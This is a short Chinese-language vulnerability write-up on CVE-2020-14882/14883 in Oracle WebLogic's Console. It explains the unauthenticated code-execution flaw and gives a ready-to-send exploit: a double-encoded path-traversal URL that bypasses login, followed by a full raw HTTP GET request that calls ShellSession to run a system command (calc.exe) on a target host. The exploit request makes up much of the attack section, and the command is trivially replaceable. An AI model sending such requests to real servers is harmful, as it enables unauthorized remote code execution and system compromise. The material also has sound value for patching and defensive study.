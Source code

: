 # CVE-2020-14882 weblogic 未授权命令执行

## **简介**

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于WebLogic的Console控制台组件中。此组件为WebLogic全版本默认自带组件，且该漏洞通过HTTP协议进行利用。将CVE-2020-14882和CVE-2020-14883进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限。

![img](.resource/%EF%BC%88CVE-2020-14882%EF%BC%89%20weblogic%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/media/640-20201028223454813.png)

根据补丁diff结果我们可以看出，可以看出上面的变化

我们可以通过下面的代码，任意加载某个类或者对象

```
http://<target>/console/console.portal?_nfpb=true&_pageLabel=HomePage1&handle=java.lang.String("ahihi")
```

![img](.resource/%EF%BC%88CVE-2020-14882%EF%BC%89%20weblogic%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/media/640-20201028223454970.png)

## **未授权访问**

![img](.resource/%EF%BC%88CVE-2020-14882%EF%BC%89%20weblogic%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/media/640-20201028223452474.png)

非法字符绕过登陆保护

## **POC**

首先通过非法字符绕过访问，然后通过Gadget调用命令执行，poc如下

![img](.resource/%EF%BC%88CVE-2020-14882%EF%BC%89%20weblogic%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/media/640-20201028223449403.png)

```
GET /console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22); HTTP/1.1
Host: 192.168.3.189:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADM
Upgrade-Insecure-Requests: 1
```



https://mp.weixin.qq.com/s/48VIwTkyFVXUTS78kNByhg
